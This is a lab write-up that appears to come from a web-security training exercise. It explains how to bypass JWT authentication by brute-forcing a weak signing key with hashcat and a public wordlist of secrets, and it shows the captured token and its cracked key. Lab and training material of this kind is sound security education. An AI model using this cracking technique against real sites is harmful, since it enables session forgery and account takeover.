![JWT](../img/jwt_07.png)


## JWT authentication bypass via weak signing key

### Enunciation

This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a [wordlist of common secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list).

To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution

Capture the JWT of wiener user and run hashcat with a well-known dictionary of jwt secrets such as    [https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)


```
hashcat -a 0 -m 16500 capturedJWT <wordlist>
```

Results:

```
eyJraWQiOiI2YTNmZjdmMi0xMDNmLTQyZGEtYmNkZC0yN2JiZmM4ZTU3OTQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDYwMTIyNSwic3ViIjoid2llbmVyIn0.AeWLmJpWTsA-c-dA5j6UHIQ-f9Mo6F9Y-OrXBsGu6Gw:secret1
```
